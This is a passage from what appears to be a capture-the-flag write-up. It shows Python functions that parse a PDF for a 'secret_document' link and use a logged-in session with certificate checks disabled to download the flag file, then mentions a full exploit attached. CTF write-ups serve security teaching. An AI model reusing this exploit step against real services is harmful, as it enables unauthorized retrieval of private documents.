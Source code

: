 ```python
def read_pdf(pdf_filename):
    with open(pdf_filename, "rb") as f:
        pdf = pdftotext.PDF(f)
    return pdf[0]
    
def find_secret_document_url(pdftext):
    secret_doc = re.findall('secret_document=(.*?).pdf"', pdftext)[0]
    return secret_doc
```

### Get the Flag

```python
def capture_the_flag(url):
    global session_jobert, CTF_URL
    
    flag_request = session_jobert.get(CTF_URL + '/documents/' + url, verify=False)
    open(FLAG_FILENAME, 'wb').write(flag_request.content)
    return read_pdf(FLAG_FILENAME)
```

Full exploit attached.

Thanks @pimps and @jespinhara for reviewing my writeup.
